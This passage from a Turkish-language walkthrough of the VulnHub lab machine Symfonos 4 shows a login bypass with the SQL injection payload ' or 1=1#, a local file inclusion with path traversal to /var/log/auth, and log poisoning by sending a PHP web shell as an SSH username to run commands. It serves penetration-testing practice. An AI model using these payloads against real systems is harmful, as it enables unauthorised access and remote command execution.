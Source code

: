 **/gods** dizinine bakıldığında .log uzantılı dosyalar görülmektedir. İçerisine bakıldığında karakterler hakkında bilgiler verilmektedir.

{{< image src="/images/vulnhub/symfonos4/gods.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

**sea.php** sayfasına yapılan istekte 302 (Yönlendirme) kodu döndüğü görülmektedir. sea.php dosyasına istek atıldığında sayfanın **atlantis.php** sayfasına yönlendirilmektedir. Bu sayfada login paneli yer almaktadır.

{{< image src="/images/vulnhub/symfonos4/login.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Sayfada ilk olarak sql injection açğının varlığı test edilmeye çalışılır. Username ve password olarak  `' or 1=1#` girilir. İnjection işlemi başarılı olduğundan sistem giriş yapılır.

{{< image src="/images/vulnhub/symfonos4/success.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Sayfanın kaynak kodları incelendiğinde ***?file=xxxx*** parametreleri LFI açığının olduğunu göstermektedir.

{{< image src="/images/vulnhub/symfonos4/lfi.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Açılır listeden hades kullanıcısı seçildiğinde ***/gods/hades.log*** dosyasının sayfaya import edildiği görülmektedir.

{{< image src="/images/vulnhub/symfonos4/hades.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

Dosya adı parametre olarak verilirken .log uzantısı otomatik olarak eklenmektedir. *Log poisoning* için log dosyaları okunmaya çalışılır. İlk olarak ***/var/log/auth.log*** dosyası test edilir. 
<br>
```txt
http://192.168.56.123/sea.php?file=../../../../../../../../var/log/auth
```
<br>
{{< image src="/images/vulnhub/symfonos4/authlog2.png" alt="Hay aksi" position="center" style="border-radius: 6px;" >}}

*Auth.log içerisinde ssh bağlantısına ait erişim logları görülmektedir. Ssh bağlantısı yapılmaya çalışıldığında işlem logları bu dosyaya kayıt edilmektedir.*

*Sömürme işlemine bakacak olursak, **Ssh** kullanıcı adı olarak zararlı php kodu verilerek bağlantı sağlanmaya çalışıldığında, php kodu auth.log dosyasına eklenir. Daha sonra lfi zafiyeti ile auth.log dosyası çağırıldığında php kodları yorumlanarak zararlı kod çalıştırılır.*

```txt
ssh '<?php system($_GET['cmd']); ?>'@192.168.56.123
```
cmd parametresi ile gönderilen komutlar sistemde çalıştırılaracaktır. `id` komutu ile test gerçekleştirilir.

```txt
http://192.168.56.123/sea.php?file=../../../../../../../../var/log/auth&cmd=id
```
<br>
{{< image src="/images/vulnhub/symfonos4/sshlfi.png" alt="Hay aksi" position="center" style="border-radius: 2px;" >}}
